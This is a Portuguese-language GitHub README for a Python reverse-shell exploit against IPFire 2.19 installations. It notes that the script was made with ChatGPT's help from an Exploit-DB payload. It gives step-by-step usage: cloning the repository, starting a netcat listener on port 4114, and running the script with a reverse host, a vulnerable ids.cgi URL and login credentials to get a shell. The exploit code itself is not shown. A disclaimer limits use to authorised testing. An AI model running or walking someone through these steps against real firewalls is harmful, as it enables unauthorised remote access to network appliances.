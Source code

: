 # IPFire Reverse Shell Exploit

![Small Bypass](smallBypass.jpg)



Este é um script em Python para explorar uma vulnerabilidade em instalações do IPFire que permite a execução de um shell reverso. Ele é destinado apenas para fins educacionais e de teste. Use com responsabilidade e apenas em ambientes onde você tem permissão.
Este Script foi criado com auxilio do chatgpt e baseado no payload disponivel em:
https://www.exploit-db.com/exploits/42149


Obrigado Kryoonzz, pelo pelas dicas! 

## Requisitos

- Python 3.x
- Bibliotecas Python: `requests`

## Uso

Para usar o script, siga as instruções abaixo:

1. Clone o repositório:

   ```bash
   git clone https://github.com/BrotherOfJhonny/IPFire_2.19.git

2. Acesse a pasta:
 ``
cd IPFire_2.19
 ``

4. Em outro terminal execute o netcat com os dados da porta que irá receber a conexão reversa.

 ```bash
nc -lvnp 4114
 ```

5. Execute seguindo as intruções:

  ```bash
python ipfireExpl3.py --revhost SEU_HOST --revport SUA_PORTA --url URL_VULNERAVEL --u SEU_USUARIO --p SUA_SENHA
 ```

Substitua SEU_HOST, SUA_PORTA, URL_VULNERAVEL,  ```exemplo: https://10.2.2.1:444/cgi-bin/ids.cgi ```, SEU_USUARIO e SUA_SENHA pelos valores apropriados.

6. Observação

```Observação
Após executar o script pode demorar até um minuto para obtenção do shell reverso
```

![Small Bypass](Small_sucesso.jpg)



## Aviso Legal
Este script é fornecido apenas para fins educacionais e de teste. Não é destinado a uso malicioso. Use-o apenas em sistemas onde você tem permissão para testar a vulnerabilidade. O autor não é responsável por qualquer uso indevido deste script.

## Contribuições
Contribuições são bem-vindas! Se você deseja melhorar ou estender este projeto, sinta-se à vontade para enviar um pull request.

